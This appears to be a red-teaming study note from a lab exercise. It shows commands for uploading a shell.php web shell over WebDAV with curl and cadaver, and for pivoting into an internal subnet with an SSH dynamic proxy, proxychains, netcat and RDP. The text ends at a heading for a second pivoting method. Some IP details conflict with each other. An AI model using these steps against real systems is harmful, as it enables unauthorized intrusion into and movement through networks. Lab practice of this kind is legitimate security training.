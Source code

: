 # Red Teaming

Attacker IP - 192.168.50.2(External)

Web Server - 192.168.50.3(Ext), 10.10.10.5(Int) Runs on two interfaces, 192.168.50.1 being external and 10.10.10.5 being internal.

Domain Controller(DC) 10.10.10.2

Application Server 10.10.10.4
```bash 
Curl can be used to connect to a web server
example:
curl --upload-file http://192.168.50.3/dav/shell.php - Uploads a shell.php file on the
server.

cadaver http://10.10.10.1/dav/ - This command is used to enter the /dav directory

put /usr/share/shell.php - PUT method is used to upload the shell.php file.
```

<h3>Network Pivoting</h3>

```bash
By default 192.168.50.3 is reachable from our machine, but we need to reach another 
internal network running on the victim's system. Let's assume the internal network subnet
is 192.168.98.0/24 and one of our target runs 192.168.98.30.

GOAL: Reach 192.168.98.0/24 network from our attacker machine with pivoting.

We have different ways of pivoting, first of which is using Proxychains with an active
ssh(with -D <proxy port> flag ) connection to the target.

NOTE: USE ANY OF THE PIVOTING TECHNIQUES BELOW IF ONE FAILS TO WORK
```
<h3>METHOD 1</h3>

```bash
First: edit proxychains config file and set  the following:
"socks4 8090, socks5 8090"
comment dns_leak.
Enable Dynamic Chain(and Disable the rest)

ssh -D 8090 msfadmin@192.168.50.3 (Opens up ssh connection via proxy port in proxychains)

second: proxychains nc -nv 192.168.98.30 80 (Runs proxychains with netcat to perform banner
grabbingon http port 80. This can also be used to test if a port is reachable(e.g 80)

proxychains rdesktop 192.168.98.30 - Using proxychains to maintain access to a windows system 
through Remote desktop protocol(RDP).

#Username and password found in metasploitable.(Optional)
```
<h3>METHOD 2: Using Rpivot.</h3>
